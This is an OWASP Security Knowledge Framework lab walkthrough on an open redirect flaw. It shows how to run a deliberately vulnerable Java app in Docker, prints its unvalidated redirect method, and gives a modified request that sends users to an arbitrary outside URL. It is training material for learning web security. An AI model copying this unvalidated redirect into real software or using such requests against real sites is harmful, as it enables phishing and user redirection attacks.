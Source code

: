 # Open Redirect

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:java-url-redirection
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:java-url-redirection
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

### Step 1

The application shows that there is a new version of the website available somewhere, and a click on the button "Go to new website" will redirect you to it.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/Url-Redirection/1.png)

If we click on the button we will be redirected on the new page [http://localhost:5000/newsite](http://localhost:5000/newsite)

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/Url-Redirection/2.png)

### Step 2

Intercepting the traffic generated by the application, we note that the redirection is performed using the following call

```
GET /redirect?newurl=newsite
```

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/Url-Redirection/3.png)

That will generate a 302 Redirect response from the server.

Inspecting the source code, it's possible to see no input validation of _newurl_ query string parameter is in place.

```java
public String redirect(@RequestParam(name="newurl", required=true) String newurl, Model model) {
		return "redirect:"+newurl;
	}
```

## Exploitation

The exploitation is pretty straightforward. Replay the redirection request, but at this time change the value of _newurl_ into another URL.

_Original request_

```
http://0.0.0.0:5000/redirect?newurl=newsite
```

_Modified request_

```
http://0.0.0.0:5000/redirect?newurl=https://www.google.com
```

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/Url-Redirection/4.png)

Using the payload above we will be able to successfully redirect a user to any website:

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/Url-Redirection/5.png)

## Additional sources

- [https://www.owasp.org/index.php/Testing_for_Client_Side_URL_Redirect\_(OTG-CLIENT-004)](<https://www.owasp.org/index.php/Testing_for_Client_Side_URL_Redirect_(OTG-CLIENT-004)>)
